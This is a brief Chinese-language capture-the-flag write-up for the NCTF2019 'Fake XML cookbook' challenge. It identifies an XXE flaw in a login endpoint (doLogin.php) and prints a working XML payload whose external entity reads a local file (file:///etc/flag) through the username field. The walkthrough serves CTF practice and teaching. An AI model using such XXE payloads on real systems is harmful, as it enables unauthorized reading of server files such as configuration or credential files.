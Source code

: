 # [NCTF2019]Fake XML cookbook

将提交的数据放到了doLogin.php下

由题目名称和源码猜测是XXE，可以进行尝试。可以根据常规的文件路径多尝试一下，找flag，这个应该是最简单的XXE利用了（可以查看XXE漏洞）

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///etc/flag">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```

![](https://s21.ax1x.com/2024/04/25/pkPpQNq.png)